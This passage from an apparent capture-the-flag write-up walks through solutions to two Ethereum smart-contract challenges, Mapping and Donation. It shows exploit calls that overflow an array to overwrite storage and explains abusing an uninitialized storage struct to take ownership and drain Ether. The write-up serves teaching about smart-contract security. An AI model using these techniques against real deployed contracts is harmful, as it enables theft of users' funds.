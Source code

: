 Fortunately we can easily modify it. First thing we have to do is expand the array length to its max value:

```typescript
const expandTx = await contract.set(MAX_UINT_256.sub("1"), 0); // Substract 1 as `map.length = key + 1;`
```

Then calculate the index that the `isComplete` variable would be in the map, and set it to `1` to complete the challenge:

```typescript
const isCompletePositionInMap = NUMBER_OF_SLOTS.sub(mapStartSlot);
const completeTx = await contract.set(isCompletePositionInMap, "1");
```

[Script](./scripts/math/MappingChallenge.ts) | [Test](./test/math/MappingChallenge.spec.ts)

### Donation

In this challenge we have to withdraw all the Ether from the contract. The only place where it is possible is:

```solidity
function withdraw() public {
  require(msg.sender == owner);
  msg.sender.transfer(address(this).balance);
}

```

But it requires to be the `owner`. So, we'll have to find a way to become the new owner.

There's some funny business going on. The `donation` variable has no location defined (memory/storage):

```solidity
Donation donation;
```

In this case, it assumes `storage` by default, leading to an unexpected behavior. It acts as a pointer to the storage, and it will write to the first slots when changing its attributes:

```solidity
struct Donation {
  uint256 timestamp;
  uint256 etherAmount;
}

Donation[] public donations;
address public owner;
```

Setting the `timestamp` will write to the `slot 0` => the array length, and setting `etherAmount` will write to the `slot 1` => the `owner`.

So, to set the `owner` we just have to set `etherAmount` to our address.

The only reamaining challenge is passing the `require(msg.value == etherAmount / scale);`
